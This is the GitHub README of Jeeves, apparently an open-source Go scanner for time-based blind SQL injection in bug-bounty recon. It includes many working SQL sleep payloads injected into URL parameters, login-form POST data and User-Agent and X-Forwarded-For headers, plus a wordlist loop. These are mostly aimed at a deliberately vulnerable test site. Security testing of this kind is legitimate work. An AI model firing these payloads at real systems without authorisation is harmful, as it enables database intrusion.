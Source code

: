 [![made-with-Go](https://img.shields.io/badge/made%20with-Go-brightgreen.svg)](http://golang.org)
<h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## Contents:

- [Installation](#--installation--requirements)
- [Usage](#--usage--explanation)
  - [Adding Headers](#adding-headers)
  - [Using Proxy](#using-proxy)
  - [Making Post Request](#post-request)
  - [Multiple ways of usage](#another-ways-of-usage)


## - Installation & Requirements:

Installing Jeeves 💀

```bash
$ go install github.com/ferreiraklet/Jeeves@latest
```
OR
```bash 
$ git clone https://github.com/ferreiraklet/Jeeves.git
$ cd Jeeves
$ go build jeeves.go
$ chmod +x jeeves
$ ./jeeves -h
```
<br>


## - Usage & Explanation:
In Your recon process, you may find endpoints that can be vulnerable to sql injection,
Ex: https://redacted.com/index.php?id=1
    
### Single urls

```bash
echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves -t payload_time
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves -t 10
```
<br>
In --payload-time you must use the time mentioned in payload
<br>


### From list 

```cat targets | jeeves --payload-time 5```
  
    <br>
    
### Adding Headers

Pay attention to the syntax! Must be the same =>

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -H "Testing: testing;OtherHeader: Value;Other2: Value"
```

### Using proxy

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 --proxy "http://ip:port"
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -p "http://ip:port"
```
<br>

Proxy + Headers =>
```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://ip:port" -H "User-Agent: xxxx"
```

### Post Request

Sending data through post request ( login forms, etc )

Pay attention to the syntax! Must be equal! ->

```bash
echo "https://example.com/Login.aspx" | jeeves -p 10 -d "user=(select(0)from(select(sleep(5)))v)&password=xxx"
echo "https://example.com/Login.aspx" | jeeves -p 10 -H "Header1: Value1" -d "username=admin&password='+(select*from(select(sleep(5)))a)+'" -p "http://yourproxy:port"
```

### Another ways of Usage

You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght

<br>

**Command line flags**:
```bash
 Usage:
 -t, --payload-time,  The time from payload
 -p, --proxy          Send traffic to a proxy
 -c                   Set Concurrency, Default 25
 -H, --headers        Custom Headers
 -d, --data           Sending Post request with data
 -h                   Show This Help Message
```  
<br> 

Using with sql payloads wordlist

```bash
cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves -t 5;done
```

Testing in headers

```bash
echo "https://target.com" | jeeves -H "User-Agent: 'XOR(if(now()=sysdate(),sleep(5*2),0))OR'" -t 10
echo "https://target.com" | jeeves -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(5*2),0))OR'" -t 10

Payload credit: https://github.com/rohit0x5
```

OBS: 
* Does not follow redirects, If the Status Code is diferent than 200, it returns "Need Manual Analisys"
* Jeeves does not http probing, he is not able to do requests to urls that does not contain protocol ( http://, https:// )
<br>

## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.


## Please, also check these => <br>
> [Nilo](https://github.com/ferreiraklet/nilo) - Checks if URL has status 200

> [SQLMAP](https://github.com/sqlmapproject/sqlmap)

> [Blisqy](https://github.com/JohnTroony/Blisqy) Header time based SQLI
